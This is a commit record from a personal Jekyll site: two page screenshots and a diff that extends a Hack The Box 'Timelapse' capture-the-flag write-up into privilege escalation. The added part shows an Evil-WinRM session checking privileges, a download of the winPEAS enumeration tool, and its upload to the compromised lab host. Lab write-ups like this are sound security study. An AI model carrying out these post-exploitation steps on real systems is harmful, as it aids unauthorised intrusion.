

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/htb/timelapse.md, in a window 1280 px wide and 1400 px high, scrolled down 7250 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 7802 px from its top, so only the background shows below that.

Commit message:
Update timelapse.md

````diff
--- a/_pages/htb/timelapse.md
+++ b/_pages/htb/timelapse.md
@@ -292,6 +292,45 @@ timelapse\legacyy
 
 <br>
 
-And we're in :)
+And we're in :) <br>
+Now for privesc.
 
 <br>
+
+```
+*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami /priv
+Enter PEM pass phrase:
+
+PRIVILEGES INFORMATION
+----------------------
+
+Privilege Name                Description                    State
+============================= ============================== =======
+SeMachineAccountPrivilege     Add workstations to domain     Enabled
+SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
+SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
+```
+
+<br>
+
+I used winPEAS
+
+```
+[connor@fedora timelapse]$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20220612/winPEASx86.exe
+```
+
+<br>
+
+```
+*Evil-WinRM* PS C:\Users\legacyy\Documents> upload winPEASx86.exe
+Info: Uploading winPEASx86.exe to C:\Users\legacyy\Documents\winPEASx86.exe
+
+Enter PEM pass phrase:
+
+Data: 2582528 bytes of 2582528 bytes copied
+
+Info: Upload successful!
+
+```
+
+<br>
````
